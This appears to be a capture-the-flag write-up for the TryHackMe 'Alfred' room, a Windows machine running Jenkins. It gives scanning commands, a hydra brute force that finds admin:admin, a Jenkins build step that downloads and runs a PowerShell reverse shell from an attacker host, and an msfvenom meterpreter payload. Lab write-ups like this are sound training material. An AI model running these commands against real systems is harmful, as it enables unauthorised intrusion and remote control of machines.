 # Alfred

https://tryhackme.com/room/alfred

## Resources

- https://github.com/samratashok/nishang
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

## Scanning/Enumeration

### nmap

```sh
nmap -v -T4 -sC -sV $TARGET_IP -Pn -oN nmap/scan.txt

# -v  - verbose
# -sC - default scripts
# -sV - version detect
# -p- - all ports
# -Pn - disable host discovery, only port scan
# -oN - output to file
```

Output to ![nmap/scan.txt](nmap/scan.txt)

- 80: http
  - Microsoft IIS httpd 7.5
- 3389
  - ssl/ms-wbt-server? 6.1.7601
- 8080: http
  - Jetty 9.4.z-SNAPSHOT
- system: alfred
- OS: windows

### gobuster

```sh
gobuster dir --url http://$TARGET_IP:80 -w /usr/share/wordlists/dirb/common.txt
# nothing

gobuster dir --url http://$TARGET_IP:8080 -w /usr/share/wordlists/dirb/common.txt
# nothing
```

### Browser

http://$TARGET_IP:80 => nothing interesting

http://$TARGET_IP:8080 => Jenkins login panel

Interesting request headers:

- `X-Jenkins 2.190.1`
- `X-Hudson 1.395`

## Vulnerabilities

- [Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities](https://www.exploit-db.com/exploits/19033)

## Exploit

### Jenkins Login

View network request on login. 

Form data: `j_username=test&j_password=test&from=%2F&Submit=Sign+in`

```sh
# brute force with hydra

hydra -s 8080 $TARGET_IP http-form-post \
  "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password" \
  -L /usr/share/wordlists/SecLists/Usernames/cirt-default-usernames.txt \
  -P /usr/share/wordlists/SecLists/Passwords/cirt-default-passwords.txt \
  -vV -f -w 30
# too long...

# google says jenkins default user is admin

hydra -s 8080 $TARGET_IP http-form-post \
  "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password" \
  -l admin \
  -P /usr/share/wordlists/SecLists/Passwords/cirt-default-passwords.txt \
  -vV -f -w 30
# got it;  admin:admin

# cheatsheet:
#
# -s port
# -L use login file
# -P use password file
# -t tasks in parallel
# -w max wait seconds
```

Credentials: `admin:admin`

### Setup Reverse Shell


```sh
# attack box

# download exploit
curl -LJO https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

# serve up exploit (:8000)
python3 -m http.server

# listen for reverse shell
nc -lvnp 9000
```

```batch
REM  target
REM  Jenkins build step

WHOAMI
REM alfred\bruce

REM  download and execute reverse shell
POWERSHELL iex (New-Object Net.WebClient).DownloadString('http://$ATTACKER_IP:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $ATTACKER_IP -Port 9000
```

```ps1
# target
# get flag

type C:\Users\bruce\Desktop\user.txt
```


### Meterpreter Shell

```sh
# attacker


msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f exe -o enki.exe
```